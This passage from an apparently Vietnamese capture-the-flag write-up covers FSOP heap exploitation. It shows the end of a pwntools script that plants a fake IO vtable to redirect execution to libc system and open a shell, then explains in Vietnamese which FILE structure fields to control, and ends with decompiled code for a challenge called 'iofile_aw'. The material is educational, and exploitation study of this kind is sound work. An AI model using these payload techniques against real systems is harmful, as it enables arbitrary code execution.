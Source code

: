```cs
pl += p64(0)*9
pl += p64(fake_vtable)  #io file jump overwrite
pl += p64(libc.sym.system)  # fp->_s.allocate_buffer rip


p.sendline(pl)
p.interactive()
```

- như ta đã nói ta cần control io_buf_end và buf_base làm đối số  , và setup _IO_write_base là 0 và _IO_write_ptr  để bypass đoạn check , ta cũng cần setup _lock thành địa chỉ có thể ghi

![here](/assets/images/fsop1.png)

## iofile_aw

- main : ta sẽ có 4 option ở bài này 

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s[520]; // [rsp+10h] [rbp-220h] BYREF
  void *src; // [rsp+218h] [rbp-18h]
  void *dest; // [rsp+220h] [rbp-10h]
  int v7; // [rsp+22Ch] [rbp-4h]

  v7 = 0;
  dest = 0LL;
  src = 0LL;
  memset(s, 0, 0x1FFuLL);
  initialize(s);
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        while ( 1 )
        {
          printf("# ");
          read_command(s);
          if ( strcmp(s, "read") )
            break;
          read_str(s);
        }
        if ( strcmp(s, "help") )
```